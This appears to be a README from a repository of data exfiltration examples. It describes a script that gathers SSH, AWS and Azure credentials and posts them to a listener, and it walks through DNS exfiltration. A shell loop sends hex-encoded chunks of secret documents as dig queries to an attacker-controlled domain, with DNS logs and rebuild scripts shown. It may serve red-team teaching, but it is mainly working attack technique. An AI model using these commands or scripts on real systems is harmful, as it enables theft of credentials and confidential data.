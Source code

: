 # Data Exfiltration examples

There are two examples here for different target types: one uses an HTTP target which can be run on an arbitrary port. The other relies on the attacker having access to a DNS server and the logs. You could also use tcpdump/tshark to sniff DNS Lookup Packets going out, but there are other tutorials for that.

## CredsGrabber - HTTP exfiltration

Sample code to search through well known creds repositories for osx/linux (.ssh/.aws/.azure), zip up the contents and post them to an ephemeral web listener


**credsgrabber.py** is the local collector  and **server.py** is your listener.


## DNS Exfiltration

**dns_exfil.sh** - runs in the environment you want to move data out of. Presumes you have a file called "secret_documents.txt", but change this up to create the zipped payload. This will hex the zipfile then iteratively query the DNS server we own. 

For example:

The zipfile in hexed form will comprise lines like:
```
504b030414000000080037bc03530b2c23bbf40700004111000014001c00
7365637265745f646f63756d656e74732e74787455540900035ad209615a
d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6
4c133b9674b07d587865195ec00fd85a7d40b13bc94e4d55574f3dc8a1bf
de1159dd1c8e2c0b027c9921bbeb91191991917cf832892bd5cfa3cfa3fb
<...>
```

So we run:
```
user@securecompany:~$ for b in `cat secret_documents.hex`
> do
> dig $b.mydomain.net
> done

; <<>> DiG 9.11.3-1ubuntu1.15-Ubuntu <<>> 504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 63233
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net. IN A
```
which produces logs like:

```
4-Aug-2021 00:20:26.964 query-errors: info: client @0x7f4de00aa050 77.125.168.17#6672 (pizzaseo.com): query failed (REFUSED) for pizzaseo.com/IN/RRSIG at ../../../bin/named/query.c:6980
04-Aug-2021 00:20:29.218 queries: info: client @0x7f4de00aa050 123.456.111.11#64665 (504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net): query: 504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net IN A -E(0)DC (10.15.16.10)
04-Aug-2021 00:20:29.279 queries: info: client @0x7f4de00aa050 123.456.111.11#50114 (7365637265745f646f63756d656e74732e74787455540900035ad209615a.mydomain.net): query: 7365637265745f646f63756d656e74732e74787455540900035ad209615a.mydomain.net IN A -E(0)DC (10.15.16.10)
04-Aug-2021 00:20:29.288 queries: info: client @0x7f4de00aa050 123.456.111.11#4282 (d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6.mydomain.net): query: d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6.mydomain.net IN A -E(0)DC (10.15.16.10)
```
which will need to be extracted to recreate the hexfile.

**extract_dns_queries.py** - runs on a DNS server you control to rebuild the hex data from the lookups. Converts the log lines into a hexfile named dns_exfil_output.hex

**hex_rebuild.sh** - simple shell script to rebuild the hexfile back into a zipfile and unzip the data. Be thoughtful about how this works for large files/datasets.



